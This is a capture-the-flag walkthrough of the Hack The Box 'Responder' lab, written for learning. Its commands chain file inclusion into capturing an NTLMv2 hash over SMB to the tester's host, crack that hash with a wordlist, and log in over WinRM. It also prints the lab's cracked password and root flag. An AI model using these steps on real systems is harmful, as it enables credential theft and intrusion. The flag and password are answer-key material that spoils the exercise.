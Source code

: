
# HTB Starting Point – Responder Walkthrough

**Difficulty:** Easy  
**Category:** Web, Windows, Network  
**Objective:** Exploiting a file inclusion vulnerability to capture and crack NTLMv2 credentials, then gaining administrative access via WinRM  

---

## 📝 Summary

This machine demonstrates a full exploitation chain involving Local File Inclusion (LFI), Remote File Inclusion (RFI) via SMB, NetNTLMv2 hash capture using Responder, offline password cracking with John the Ripper, and post-exploitation access via WinRM.

The scenario simulates a misconfigured web application vulnerable to file inclusion and a Windows host exposing WinRM, providing an opportunity to escalate from low-level web access to full system compromise.

---

## 🔍 Initial Enumeration

### Nmap Scan
```bash
nmap -sC -sV -p- 10.129.9.6
````

**Open Ports:**

* `80/tcp` – Apache httpd
* `5985/tcp` – Microsoft WinRM

---

## 🌐 Web Application Analysis

### Hostname Resolution

Ensure `/etc/hosts` contains:

```
10.129.9.6 unika.htb
```

### LFI Discovery

The application includes pages via a `page` parameter:

```http
http://unika.htb/?page=about
```

Tested LFI:

```bash
curl -H "Host: unika.htb" "http://10.129.9.6/?page=../../../../../../../../windows/system32/drivers/etc/hosts"
```

✔️ Successful inclusion confirms **Local File Inclusion**.

---

## 💀 RFI + SMB Hash Capture (Responder)

### 1. Start Responder on VPN Interface:

```bash
sudo responder -I tun0
```

### 2. Trigger RFI via UNC path:

```bash
curl -H "Host: unika.htb" "http://10.129.9.6/?page=//10.10.14.253/fake"
```

Responder captures a **NetNTLMv2 challenge/response**:

```
Administrator::Responder:112233...:NetNTLMv2_hash
```

---

## 🔐 Hash Cracking with John the Ripper

### Save hash to file:

```bash
nano hash.txt
```

### Crack using rockyou:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**Cracked Password:**

```
badminton
```

---

## 🪟 Gaining Access via WinRM

### Using `evil-winrm`:

```bash
evil-winrm -i 10.129.9.6 -u Administrator -p badminton
```

> Note: Ruby configuration issues may affect this tool. If so, alternative options like `crackmapexec` can be used.

### Using `crackmapexec`:

```bash
crackmapexec winrm 10.129.9.6 -u Administrator -p badminton -x "type C:\\Users\\mike\\Desktop\\root.txt"
```

---

## 🏁 Root Flag

Once inside:

```powershell
cd C:\Users\mike\Desktop
type root.txt
```

**Root Flag:**

```
ea81b7afddd03efaa0945333ed147fac
```

---

## 📚 Key Takeaways

* **LFI can lead to RFI** in Windows environments when UNC paths are included without validation.
* **Responder** is highly effective for capturing NTLM hashes when file includes or redirects trigger SMB authentication.
* **John the Ripper** can crack NetNTLMv2 hashes with a proper wordlist (e.g. rockyou).
* **WinRM** is a commonly exposed Windows management service that, if misconfigured, provides shell access.
* Working with tools like `evil-winrm`, `Responder`, and `crackmapexec` highlights the importance of solid environment setup and fallback strategies during engagements.

---

## 🛠 Tools Used

| Tool           | Purpose                              |
| -------------- | ------------------------------------ |
| `nmap`         | Service and port discovery           |
| `Responder`    | Capturing NTLMv2 challenge/responses |
| `curl`         | Manual LFI/RFI testing               |
| `john`         | Offline hash cracking                |
| `evil-winrm`   | Windows remote shell                 |
| `crackmapexec` | Alternative WinRM exploitation       |

---

## 📁 Supporting Files

* `hash.txt` – Captured NTLMv2 hash
* `rockyou.txt` – Wordlist for cracking
* `screenshot/` – Optional proof images for each stage

---

## 🎯 Conclusion

This machine demonstrates the risks associated with improper input validation and file inclusion in web applications, especially when paired with exposed internal services like SMB and WinRM.

The box also reinforces fundamental offensive security concepts such as:

* Hash capture and cracking
* Enumeration of file inclusion vulns
* Credential reuse across services

proof of pwn - https://labs.hackthebox.com/achievement/machine/2424577/461
> **Note:** This writeup is intended for educational and career development purposes and reflects a responsible, legal penetration testing exercise performed within Hack The Box’s training environment.

